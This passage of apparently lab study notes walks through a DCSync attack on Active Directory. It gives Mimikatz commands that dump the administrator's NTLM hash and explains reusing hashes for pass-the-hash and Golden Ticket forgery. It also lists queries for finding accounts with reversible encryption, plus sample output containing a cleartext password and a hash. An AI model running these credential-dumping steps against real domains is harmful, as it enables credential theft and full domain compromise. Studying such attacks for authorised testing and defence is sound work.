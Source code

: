 #### **B. From Windows (Mimikatz)**
1. **Run PowerShell as DCSync-privileged user:**
   ```cmd
   runas /netonly /user:DOMAIN\adunn powershell
   ```
2. **Launch Mimikatz:**
   ```powershell
   .\mimikatz.exe
   mimikatz # privilege::debug
   mimikatz # lsadump::dcsync /domain:DOMAIN /user:DOMAIN\administrator
   ```
3. **What it does:**
   - Requests replication data for the specified user
   - Outputs NTLM hash and credential info

---

### Output Interpretation
- **NTLM Hashes:** Used for pass-the-hash, offline cracking, or lateral movement
- **Kerberos Keys:** Used for forging tickets (e.g., Golden Ticket attacks)
- **Cleartext Passwords:** Only present if reversible encryption is enabled

#### Example: secretsdump.py Output
```
domain\user:RID:LMHASH:NTHASH:::
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

#### Example: Mimikatz Output
```
SAM Username         : administrator
Hash NTLM: 88ad09182de639ccc6579eb0849751cf
```

---

### Reversible Encryption: What & Why
- **Definition:** If enabled, AD stores user passwords using reversible encryption (RC4), not just hashes.
- **Risk:** Tools can extract and decrypt these passwords directly.
- **How to find such accounts:**
  - PowerShell:
    ```powershell
    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
    ```
  - PowerView:
    ```powershell
    Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'}
    ```
- **Output:**
  - `proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!`

---
